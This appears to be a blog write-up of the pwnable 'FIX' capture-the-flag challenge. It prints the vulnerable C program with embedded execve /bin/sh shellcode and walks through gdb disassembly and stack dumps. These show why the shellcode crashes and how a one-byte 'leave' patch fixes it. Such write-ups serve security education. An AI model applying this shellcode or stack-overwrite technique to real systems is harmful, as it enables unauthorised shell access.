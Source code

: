 ```yaml
---
layout: post
title:  "Pwnable: FIX Write-up"
description: Write-up of "FIX" problem
img: no image
date: 2016-03-07  +0200
---
```


Below is the source code of vulnerable binary file.  

```c
#include <stdio.h>

// 23byte shellcode from  
// http://shell-storm.org/shellcode/files/shellcode-827.php
char sc[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
                "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

void shellcode(){
        // a buffer we are about to exploit!
        char buf[20];

        // prepare shellcode on executable stack!
        strcpy(buf, sc);

        // overwrite return address!
        *(int*)(buf+32) = buf;

        printf("get shell\n");
}

int main(){
        printf("What the hell is wrong with my shellcode??????\n");
        printf("I just copied and pasted it from shell-storm.org :(\n");
        printf("Can you fix it for me?\n");

        unsigned int index=0;
        printf("Tell me the byte index to be fixed : ");
        scanf("%d", &index);
        fflush(stdin);

        if(index > 22)  return 0;

        int fix=0;
        printf("Tell me the value to be patched : ");
        scanf("%d", &fix);

        // patching my shellcode
        sc[index] = fix;

        // this should work..
        shellcode();
        return 0;
}

```

If you analyze binary file, you could figure out that we could modify 1 byte of shellcode, and we must leverage this vulnerability to obtain privileged shell.  
The shellcode is embedded in the binary and I have checked whether it is valid shellcode as below:  

> xor    %eax,%eax  
> push   %eax  
> push   $0x68732f2f  
> push   $0x6e69622f  
> mov    %esp,%ebx  
> push   %eax  
> push   %ebx  
> mov    %esp,%ecx  
> mov    $0xb,%al  
> int    $0x80  

Indeed it is valud shellcoded.  
To briefly explain meaning of "push $0x68732f2f" and "push $0x6e69622f".  
This is very basic technique to create shellcode. It embeds necessary strings in the exploit code as follow:  

> push '/' ; is push 0x2f  
> push 'b' ; is push 0x62  
> push 'i' ; is push 0x69  
> push 'n' ; is push 0x6e  
> push '/' ; is push 0x2f  
> push '/' ; is push 0x2f  
> push 's' ; is push 0x73  
> push 'h' ; is push 0x68  

However, even if it is valid shellcode, If you execute the program, it crashes!!!  
You need to analyze why this is happening..  
I started analyzing using gdb.  
Let's disam shellcode function.  

> (gdb) disas shellcode  
> Dump of assembler code for function shellcode:  
> 0x080484e4 <+0>: push ebp  
> 0x080484e5 <+1>: mov ebp,esp  
> 0x080484e7 <+3>: sub esp,0x38  
> 0x080484ea <+6>: mov DWORD PTR [esp+0x4],0x804a024  
> 0x080484f2 <+14>: lea eax,[ebp-0x1c]  
> 0x080484f5 <+17>: mov DWORD PTR [esp],eax  
> 0x080484f8 <+20>: call 0x80483e0 <strcpy@plt>  
> 0x080484fd <+25>: lea eax,[ebp-0x1c]  
> 0x08048500 <+28>: lea edx,[eax+0x20]  
> 0x08048503 <+31>: lea eax,[ebp-0x1c]  
> 0x08048506 <+34>: mov DWORD PTR [edx],eax  
> 0x08048508 <+36>: mov DWORD PTR [esp],0x80486a0  
> 0x0804850f <+43>: call 0x80483f0 <puts@plt>  
> 0x08048514 <+48>: leave  
> 0x08048515 <+49>: ret  
> End of assembler dump.  

break at shellcode+6 and evaluate stack.

(gdb) x/10i *shellcode  

0x80484e4 <shellcode>: push ebp  
  
0x80484e5 <shellcode+1>: mov ebp,esp  

0x80484e7 <shellcode+3>: sub esp,0x38  

=> 0x80484ea <shellcode+6>: mov DWORD PTR [esp+0x4],0x804a024  

0x80484f2 <shellcode+14>: lea eax,[ebp-0x1c]  

0x80484f5 <shellcode+17>: mov DWORD PTR [esp],eax  

0x80484f8 <shellcode+20>: call 0x80483e0 <strcpy@plt>  

0x80484fd <shellcode+25>: lea eax,[ebp-0x1c]  

0x8048500 <shellcode+28>: lea edx,[eax+0x20]  

0x8048503 <shellcode+31>: lea eax,[ebp-0x1c]  


> (gdb) x/10wx $ebp  
> 0xfff7bed8: 0xfff7bf08 **(old ebp)** 0x080485c7 **(ret)** 0x0804874e 0xfff7bef8  
> 0xfff7bee8: 0xf772cff4 0xf75bd1a5 0xf774f660 0x00000000  
> 0xfff7bef8: 0x000000c9 0x0000000d  

You can see that return address is at 0xfff7bedc. If we could overwrite it, we could execute our shellcode.  
If you further analyze the binary code, you can find some interesting stuff is going on.

> => 0x80484fd <shellcode+25>: lea eax,[ebp-0x1c]  
> 0x8048500 <shellcode+28>: lea edx,[eax+0x20]  
> 0x8048503 <shellcode+31>: lea eax,[ebp-0x1c]  
> 0x8048506 <shellcode+34>: mov DWORD PTR [edx],eax  

> (gdb) x/10bx $ebp-0x1c --> **our shellcode is here**  
> 0xfff7bebc: 0x31 0xc0 0x50 0x68 0x2f 0x2f 0x73 0x68  
> 0xfff7bec4: 0x68 0x2f  
> (gdb) x/wx $eax+0x20 --> **this refers ret**  
> 0xfff7bedc: 0x080485c7  

this means, our shellcode will overwrite ret address with below instruction.  
awesom!    
> 0x8048506 <shellcode+34>:    mov    DWORD PTR [edx],eax   

After above instruction, ret is changes to shellcode..  
(gdb) x/10i 0xfff7bebc  

=>0x804a024 <sc>: xor eax,eax  
  
0x804a026 <sc+2>: push eax  

0x804a027 <sc+3>: push 0x68732f2f  

0x804a02c <sc+8>: push 0x6e69622f  

0x804a031 <sc+13>: mov ebx,esp  

0x804a033 <sc+15>: push eax  

0x804a034 <sc+16>: push ebx  

0x804a035 <sc+17>: mov ecx,esp  

0x804a037 <sc+19>: mov al,0xb  

0x804a039 <sc+21>: int 0x80  

so far so good. Then why the program crashes?  
The program crashes after executing below instruction.  
> => 0x804a02c <sc+8>: push 0x6e69622f

very interesting..  
The reason program crashes is that eip is increased as the instruction executed, whereas esp decreases as push instruction is executed. So, there is 5 push instructions in the shellcode..  
{% highlight markdown %}
> On the second push instruction, because esp is pointing to eip memory region, it overwrites eip and therefore, program crashes with illegal instrction.  
{% endhighlight %}

**In order to solve this problem, you need to leverage "leave" instruction to change esp value so that it does not overwrite eip. **
**0xc9 is leave instruction, and since we could modify one byte, we can change insert it into our shellcode **
**Leave instruction changes esp value to ebp value. **

leave ins is equavalent to mov esp, ebp and pop ebp.  

; enter  
push ebp  
mov ebp, esp  

; leave  
mov esp, ebp  
pop ebp  
